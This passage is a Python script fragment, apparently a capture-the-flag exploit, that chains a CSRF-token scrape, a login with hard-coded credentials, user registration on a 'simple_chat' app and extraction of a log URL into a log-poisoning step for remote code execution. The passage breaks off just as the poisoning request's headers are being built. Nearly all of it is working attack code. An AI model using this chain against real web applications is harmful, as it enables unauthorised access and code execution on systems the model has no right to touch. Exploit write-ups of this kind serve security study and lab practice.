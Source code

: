 ```python

def webMonitorAuthentication():

    s = requests.session()
    r = s.get(monitor_url)

    # pdb.set_trace()

    csrfToken = re.findall(r'name="csrf" value="(.*?)"', r.text)[0]

    auth_data = {
        'csrf': csrfToken,
        'user_name': 'harvey',
        'user_password': 'potter',
        'action': 'login'
    }

    r = s.post(monitor_url, data=auth_data)
    r = s.get(monitor_internal_url)

    # pdb.set_trace()

    url_found = re.findall(r'title="Website"></i> (.*?)<', r.text)[1]
    return url_found

def register_user(leaked_url):

    full_register_url = leaked_url + "simple_chat/register.php"

    post_data = {
        'uname': username,
        'passwd': '%s123' % username
    }

    r = requests.post(full_register_url, data=post_data)

def obtainUrlPoissoning(leaked_url):

    full_login_url = leaked_url + "simple_chat/login.php"

    s = requests.session()

    post_data = {
        'uname': username,
        'passwd': '%s123' % username,
        'submit': 'Login'
    }

    r = s.post(full_login_url, data=post_data)

    r = s.get(leaked_url)

    #pdb.set_trace()

    url_poissoning_founded = re.findall(r"GET\', \'(.*?)\'", r.text)[0]
    return url_poissoning_founded

def injectPoisson(poissoning_url, leaked_url):

    poissoning_url = str.replace(poissoning_url, "log.txt", '%s' % url_log_name)
    rce_url = leaked_url + "log/%s" % url_log_name

    headers = {
```